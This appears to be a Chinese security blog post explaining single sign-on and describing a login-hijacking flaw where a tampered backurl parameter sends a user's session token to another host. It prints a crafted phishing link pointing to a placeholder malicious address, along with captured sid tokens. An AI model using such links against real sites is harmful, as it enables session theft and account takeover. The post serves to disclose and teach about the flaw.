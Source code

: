 ```yaml
---
title: sso登陆劫持漏洞
categories:
- web
tags:
- web
---
```

## 引子
最近项目遇到这个漏洞，但是我没有发现。。

## 正文

参考资料：
- [腾讯单点登录系统跨域劫持漏洞](http://www.anquan.us/static/bugs/wooyun-2010-0118.html)

- [https://lvwei.me/passport.html#toc_8](https://lvwei.me/passport.html#toc_8)

sso单点登陆，用户一次登陆，所有系统都可访问。

sso设计目的是简化登陆方式，可能有很多系统，但是多个系统都是一个机构的，每个系统每次都要分别登陆就很复杂。

举个例子，OpenID是一个很流行的sso框架，

用户提交1. openID 2.openID Provider（提供者）

网站重定向到openID provider认证，登陆成功后，再重定向回网站。

这里可以理解为，门卫不知道你是谁，然后让你去某某处盖章，你去盖章完成后回到门卫处，门外验证红章没问题就让你通过。

## 案例
```
http://abc.com/public/pages/login/index.html?backurl=http%3A%2F%2Fabc.com%2FAccount%2FLogin%3FReturnUrl%3D%252f&app=YuLinTu
```
此处有一个参数backurl=abc.com，当修改此参数为backurl=abc.com.test

网页向abc.com.test，也就是openID Provider（提供者）提交一串openID。

提交后，网页提示无法连接abc.com.test，并且抓取到了一段数据包，包含了登陆成功的token。 

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-30-11/4.PNG)

由于客户可以伪造openID Provider（提供者），此处产生了sso登陆劫持漏洞。下列的sid是token。如果使用以下token，再次访问http://abc.com.test/Account/Login，可以发现已经登陆。

```
http://abc.com.test/Account/Login?ReturnUrl=%2f&sid=c4d4e77e80ad1ee5c682
8122a38b90d18077aeea4feb963a6c465e4691f65e767f11f935de6c3616
```
### 攻击方式
攻击者可以将backurl修改为自己的地址，然后发送恶意连接
`http://abc.com/public/pages/login/index.html?backurl=http%3A%2F%2F恶意地址%2FAccount%2FLogin%3FReturnUrl%3D%252f&app=YuLinTu`

一旦受害者点击链接，并输入正确的用户名和密码。恶意地址会收到如下的get请求“GET /Account/Login?ReturnUrl=%2f&sid=96c2182d0da29dc720fab468734fef9e47ced2993df16fda6b03c98e92f6e77475b4cf56623430d6 ”

攻击者就可以使用token sid=xxx，以受害者的身份进行登陆abc.com。